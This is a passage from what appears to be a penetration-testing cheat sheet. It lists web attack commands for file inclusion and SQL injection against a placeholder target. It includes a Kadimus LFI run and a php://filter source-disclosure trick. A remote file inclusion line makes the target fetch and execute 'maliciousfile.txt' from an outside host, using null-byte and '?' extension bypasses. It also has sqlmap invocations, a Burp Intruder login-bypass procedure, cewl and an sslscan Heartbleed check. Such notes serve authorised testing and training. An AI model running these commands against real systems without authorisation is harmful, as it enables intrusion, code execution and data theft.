 ```
# Kadimus
/root/Tools/Kadimus/kadimus -u http://INSERTIPADDRESS/example.php?page=


# Bypass execution
http://INSERTIPADDRESS/index.php?page=php://filter/convert.base64-encode/resource=index
base64 -d savefile.php

# Bypass extension
http://INSERTIPADDRESS/page=http://192.168.1.101/maliciousfile.txt%00
http://INSERTIPADDRESS/page=http://192.168.1.101/maliciousfile.txt?
```


#### SQL-Injection

```
# Post
./sqlmap.py -r search-test.txt -p tfUPass

# Get
sqlmap -u "http://INSERTIPADDRESS/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://INSERTIPADDRESS --dbms=mysql --crawl=3
```

#### Sql-login-bypass


- Open Burp-suite
- Make and intercept request
- Send to intruder
- Cluster attack
- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
- Attack
- Check for response length variation

### Password brute force - last resort

```
cewl
```

### Port 443 - HTTPS

Heartbleed:

```
sslscan INSERTIPADDRESS:443
```

## Vulnerability analysis
